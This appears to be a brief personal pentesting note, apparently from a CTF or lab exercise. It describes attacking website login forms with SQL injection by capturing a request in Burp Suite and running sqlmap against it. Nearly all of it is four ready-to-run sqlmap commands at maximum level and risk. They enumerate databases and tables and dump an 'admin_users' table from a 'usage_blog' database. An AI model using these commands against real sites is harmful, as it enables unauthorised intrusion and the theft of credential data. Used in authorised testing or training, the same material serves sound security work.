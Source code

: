 Related Articles: 
Tags: #Maneuvers 

---

Whenever we find some login forms on a website we can try to SQLi it. 


SQL injections via SQL MAP;

In order to be able to successfully attempt to SQLi via SQLMAP you have to intercept the request form via Burp Suite and then save it to a file, once saved use the -r switch in sqlmap and point it to the saved file:
```
sqlmap -r request.txt -p email --level 5 --risk 3 --batch --threads 10 --dbs
```
```
sqlmap -r request.txt -p email --batch --level 5 --risk 3 --dbms=mysql --dbs
```
```
sqlmap -r request.txt -p email --level 5 --risk 3 --batch --dbms=mysql -D usage_blog -T admin_users --dump --threads 10
```
```
sqlmap -r request.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog --tables --threads 10
```

